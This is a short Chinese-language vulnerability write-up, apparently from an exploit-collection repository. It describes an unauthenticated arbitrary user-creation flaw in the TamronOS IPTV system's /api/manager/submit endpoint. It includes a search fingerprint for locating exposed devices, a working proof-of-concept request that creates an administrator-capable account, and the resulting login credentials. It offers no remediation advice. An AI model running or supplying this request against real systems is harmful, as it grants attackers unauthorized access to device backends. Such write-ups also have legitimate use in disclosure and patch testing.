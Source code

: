 # TamronOS IPTV系统 submit 任意用户创建漏洞

## 漏洞描述

TamronOS IPTV系统 /api/manager/submit 存在任意用户创建漏洞，攻击者通过漏洞可以任意用户创建进入后台

## 漏洞影响

<a-checkbox checked>TamronOS IPTV系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TamronOS-IPTV系统"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210615145308242-20220313155156716.png)



漏洞POC为

```plain
/api/manager/submit?group=1&username=test&password=123456
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210615145547635.png)

```plain
user: test
pass: 123456
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210615145605871.png)